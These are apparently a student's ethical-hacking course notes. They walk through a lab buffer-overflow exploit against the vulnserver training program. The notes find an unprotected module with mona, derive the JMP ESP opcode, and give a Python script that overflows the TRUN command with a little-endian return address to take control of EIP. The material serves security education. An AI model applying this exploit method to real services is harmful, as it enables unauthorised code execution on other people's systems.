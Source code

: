 # Finding the Right Module

We are looking for a dll inside the program, that has no memory protections: no DEP, no ASLR, no safeSEH

Can use Mona Modules tool together with ImmunityDebugger

Download mona.py and place in:
```
C:\Program Files (x86)\Immunity Inc\Immunity Debugger\PyCommands
```

In Immunity Debugger where our program has paused, run at the bottom cmd line, `!mona modules`

We can check which protection settings are off and on

Check what is attached to vulnserver itself and has all False

![](https://github.com/Cyberd0xed/practical-ethical-hacking/blob/main/resources/f4ade174ab3d428e97f16a8f06d1092f.png?raw=true)
 
**essfunc.dll** seems ideal as the protection settings for Rebase, SafeSEH, ASLR, NXCompat, OS Dll are all False and it is attached to the vulnserver process (`\vulnserver\essfunc.dll`)

Find the operation (OP) code equivalents of a jump to a specific address: i.e. trying to convert assembly language to shellcode

How to do this: go on Linux, and `locate nasm_shell`

Run
```
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
```
On `nasm>` type the assembly code `JMP ESP`. We get:
```
nasm > JMP ESP
00000000  FFE4              jmp esp
```
will use this as a pointer for our program to look at the pointer and jump to the shell code 

Hexcode equivalent of "JMP ESP" is "FFE4"

Go back to ImmunityDebugger and type:
```
!mona find -s "\xff\xe4" -m eesfunc.dll
```
(`.ff..e4`)
In the results, we see a couple of return addresses

![78888b61a7c9766147e1e59e4a6732d3.png](../../_resources/527a2a8a950648e0a813ed38b3703070.png)

Note down some of these. For now, first result: `0x625011af`

We will use this in our shell code. This time, our Windows has x86 architecture so we need to use little-endian format as it stores the lower order byte to the lowest address and the high order byte at the higher address.
We will write the address as `\xaf\x11\x50\x62`

We want our EIP to be jump code that jumps to our malicious reverse shell code:
```
#!/usr/bin/python
import sys, socket

# The "vulnerable" return address we found was 625011af
shellcode = "A" * 2003 + "\xaf\x11\x50\x62"

while True:
	try:
		s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect(('10.0.2.15',9999))
		s.send(('TRUN /.:/' + shellcode ))
		s.close()
	except:
		print "Error connecting to server"
		sys.exit()
```

This should hit the same error as before but hit a Jump point 

Go back to ImmunityDebugger and try and catch the exception
Back to "C" windows of ID, click blue/black arrow pointing to the right three dots and enter our address `Enter expression to follow 625011af`

![f90f5d75a55bda5e69a0a4b40ba2e38d.png](../../_resources/11bcc55c6f2a4d1993abc116800e94c5.png)

There, we see the FFE4 JMP ESP code we were looking for. Hit F2 to set breakpoint. Then, when we run the program, it will pause there instead of moving further. 
Can now run program and then run our 5.py
The program pauses at our breakpoint and we see `EIP 625011AF essfunc.625011AF`

We now control the EIP. Now need to write/generate some shellcode, point directly to that shellcode and get root

